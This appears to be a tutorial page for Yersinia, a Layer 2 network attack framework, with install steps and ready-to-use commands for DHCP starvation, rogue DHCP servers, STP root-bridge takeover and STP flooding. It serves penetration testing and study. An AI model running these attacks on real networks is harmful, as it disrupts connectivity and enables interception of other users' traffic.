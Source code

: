 Yersinia is a powerful framework designed to exploit vulnerabilities in network protocols operating at Layer 2 (Data Link Layer). It specifically targets protocols like Spanning Tree Protocol (STP), Cisco Discovery Protocol (CDP), Dynamic Host Configuration Protocol (DHCP), Hot Standby Router Protocol (HSRP), and others that form the fundamental infrastructure of modern networks.

### Installation

```bash
# On Debian/Ubuntu-based systems
sudo apt update
sudo apt install yersinia

# From source
git clone https://github.com/tomac/yersinia.git
cd yersinia
./configure
make
sudo make install
```

### Basic Usage

Yersinia offers both a text-based and a graphical interface:

```bash
# Launch text mode
sudo yersinia -h  # Show help
sudo yersinia -I  # Interactive mode
sudo yersinia -G  # GTK graphical interface

# List available attack modes
sudo yersinia -l
```

### Protocol Attacks

Yersinia can attack various Layer 2 protocols:

#### 1. DHCP Attacks

```bash
# DHCP starvation from command line
sudo yersinia dhcp -attack 1

# Release specific DHCP address
sudo yersinia dhcp -attack 2 -arg1 <IP_address>

# DHCP rogue server
sudo yersinia dhcp -attack 3 -arg1 <IP_range_start> -arg2 <IP_range_end>
```

#### 2. STP (Spanning Tree Protocol) Attacks

```bash
# Claim to be root bridge
sudo yersinia stp -attack 1

# STP configuration flood
sudo yersinia stp -attack 2
```
